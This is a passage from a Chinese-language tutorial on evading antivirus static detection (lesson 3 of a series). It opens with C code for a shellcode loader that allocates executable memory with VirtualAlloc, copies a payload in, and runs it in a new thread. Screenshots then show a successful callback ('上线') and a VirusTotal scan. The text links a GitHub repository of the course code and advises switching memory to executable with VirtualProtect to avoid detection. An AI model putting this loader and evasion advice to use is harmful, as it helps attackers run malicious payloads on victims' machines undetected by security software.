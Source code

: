     char * shellcode = (char *)VirtualAlloc(
        NULL,
        shellcode_size,
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
        );
        // 将shellcode复制到可执行的内存页中
    CopyMemory(shellcode,buf,shellcode_size);
    
    hThread = CreateThread(
        NULL, // 安全描述符
        NULL, // 栈的大小
        (LPTHREAD_START_ROUTINE)shellcode, // 函数
        NULL, // 参数
        NULL, // 线程标志
        &dwThreadId // 线程ID
        );
    
    WaitForSingleObject(hThread,INFINITE); // 一直等待线程执行结束
        return 0;
    }
    
        

上线效果：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008165154182.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008165200183.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
V站查杀：

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008165311178.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    https://www.virustotal.com/gui/file/a12105a78ccc3228bae12c170782c71b8212bd44e65f519947c6136f17e04723/detection
    
        

* * *

#### 9.1.9 静态恶意代码逃逸（第三课）

**0x01 关于内存申请的优化**

前六课的代码将会上传至Github，方便读者下载研究 :

    https://github.com/Rvn0xsy/BadCode
    
        

本章只提及一下关于VirtualAlloc的建议。

    https://docs.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
    
        

在申请内存页时，一定要把控好属性，可以在Shellcode读入时，申请一个普通的可读写的内存页，然后再通过VirtualProtect改变它的属性 -> 可执行。

    #include <Windows.h>
    
    // 入口函数
    int wmain(int argc,TCHAR * argv[]){
    